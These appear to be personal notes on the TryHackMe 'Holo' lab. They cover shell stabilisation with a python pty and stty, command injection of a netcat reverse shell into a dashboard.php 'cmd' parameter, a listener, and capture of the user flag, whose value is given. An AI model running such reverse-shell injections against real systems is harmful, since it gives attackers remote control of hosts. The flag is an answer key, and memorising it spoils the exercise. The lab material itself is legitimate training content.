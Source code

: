 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're u> [!INFO]
You have shell onto  L-SRV01.sing ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `nc+-e+/bin/sh+<tun0 IP>+4444`.
	This tells netcat to send /bin/sh command line to your IP and port. Putting this into the RCE, you get the following URL:
	`admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+<tun0 IP>+4444`
- Visit the URL on the browser or on Burp Suite Repeater.

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150700382.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 4444`

- On Repeater click "Send".
	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150823201.webp]]
	You got a Revers Shell.

> [!INFO]
You have shell onto  L-SRV01.
## Stabilize shell

In this case you'll have to use `python3`.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Flag on Docker container

- On the Reverse Shell go to `www-data@555e6e40ede0:/var/www$` and run:
	`cat user.txt`

	HOLO{175d7322f8fc53392a417ccde356c3fe}


- Submit the user flag on Task 4, question 1.


**Next step:** [[Task 15 -  Docker? I hardly even know her!]]
